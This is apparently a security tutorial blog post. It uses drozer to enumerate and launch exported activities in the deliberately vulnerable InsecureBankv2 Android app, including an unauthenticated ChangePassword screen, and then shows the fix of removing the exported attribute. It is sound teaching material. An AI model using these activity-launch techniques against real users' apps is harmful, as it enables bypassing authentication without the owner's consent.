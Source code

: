```yaml
---
layout: default
title: Identifying and fixing security vulnerabilities of Android applications - Activities
---
```


### Prerequisites 

* [InsecureBankv2](https://github.com/dineshshetty/Android-InsecureBankv2) installed on Android device or emulator
* [Drozer](https://labs.mwrinfosecurity.com/tools/drozer) agent installed on Android device or emulator
* Drozer console runs and connected to drozer agent

### Getting information

In this blog series we will be using drozer extensively. [Drozer manual](https://labs.mwrinfosecurity.com/assets/BlogFiles/mwri-drozer-user-guide-2015-03-23.pdf) contains information how to get started, an important thing to remember is to allow port forwarding via adb and connect drozer console on your host computer to a drozer agent running on your android device or emulator:

```
adb forward tcp:31415 tcp:31415
drozer console connect
```

After we connect drozer console to an agent, we need to find package name of the InsecureBankv2 application. One can do this either by using `adb` or `drozer`:

```
adb shell
pm list packages | grep bank

// alternative way

dz> run app.package.list -f bank
```

This way or another, we now know that the package of interest is `com.android.insecurebankv2`.

One of the first things we can do with drozer is to determine attack surface:

```
dz> run app.package.attacksurface com.android.insecurebankv2
Attack Surface:
  5 activities exported
  1 broadcast receivers exported
  1 content providers exported
  0 services exported
    is debuggable
```

Let's look closer at activities. The command below will enumerated exported activities along with the permissions necessary to invoke them, i.e. activities that can be launched by other processes on Android device:

```
dz> run app.activity.info -a com.android.insecurebankv2
Package: com.android.insecurebankv2
  com.android.insecurebankv2.LoginActivity
    Permission: null
  com.android.insecurebankv2.PostLogin
    Permission: null
  com.android.insecurebankv2.DoTransfer
    Permission: null
  com.android.insecurebankv2.ViewStatement
    Permission: null
  com.android.insecurebankv2.ChangePassword
    Permission: null
```

As you can see, there are 5 exported activities. One can guess that `LoginActivity` should be exported, as it is probably the one launched when the application starts. However, other 4 activities may not necessarily be the one that should be allowed to be launched directly.

### Exploit

Here is a way how one can use drozer to launch an exported activity:

```
dz> run app.activity.start --component com.android.insecurebankv2 com.android.insecurebankv2.ChangePassword
```

On your android device/emulator you will see ![Vulnerable ChangePassword Activity launched from drozer](images/android-insecurebank-exported-activity-launched.PNG)

The screen you are seeing will allow to change password without authenticating to the application. In this specific case, another person should have had an access to the device to be able to change password. However, there are cases when parameters can be passed to the activities being launched, and those activities would operate on the given parameters. It is important to keep that in mind when evaluating real-world applications (looking into the source code of exported activities would be warranted to determine whether it reads any parameters from an intent that was used to launch it).

### Fix

The activity we looked at should not be exported, so the fix would be to remove `exported` attribute: ![Fixing vulnerable activity by removing exported attribute](images/android-insecurebank-exported-activity-fix.PNG). If we try to launch activity from drozer after this fix, we will get:

```
Permission Denial: starting Intent { flg=0x10000000 cmp=com.android.insecurebankv2/.PostLogin (has extras) } from ProcessRecord{ad574180 1878:com.mwr.dz:remote/u0a72} (pid=1878, uid=10072) not exported from uid 10071
```

### Summary

In this post we looked at exploiting exported Android activities. We also showed how to fix this vulnerability either by removing `exported` attribute.
